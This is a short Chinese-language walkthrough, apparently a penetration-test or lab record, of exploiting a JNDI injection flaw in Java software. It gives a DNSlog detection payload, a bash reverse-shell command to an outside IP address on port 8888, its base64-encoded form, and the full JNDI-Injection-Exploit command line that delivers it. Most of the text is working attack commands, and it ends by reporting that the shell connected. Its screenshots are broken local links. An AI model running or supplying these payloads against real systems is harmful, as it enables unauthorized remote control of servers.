 ###### 1.DNSlog验证

首先再DNSlog获取域名，构造payload：payload=${jndi:ldap://tr2gk6.dnslog.cn}

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

 

DNSlog网站接收到解析记录，说明存在漏洞

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

 

###### **2.** JNDI注入反弹shell

首先下载好JNDI注入工具，上传到云服务器上

 

反弹shell指令:

bash -i >& /dev/tcp/124.222.155.178/8888 0>&1

 

进行base64编码

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

 

JNDI启动:

第一处标红部分是经过base64编码过后的指令，第二处是监听服务器的IP地址。

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,CmJhc2ggLWkgPiYgL2Rldi90Y3AvMTI0LjIyMi4xNTUuMTc4Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A 124.222.155.178

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

测试了用前两个都不行，使用第三个监听到了

 

设置监听

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

 

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

 

反弹成功

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

 

 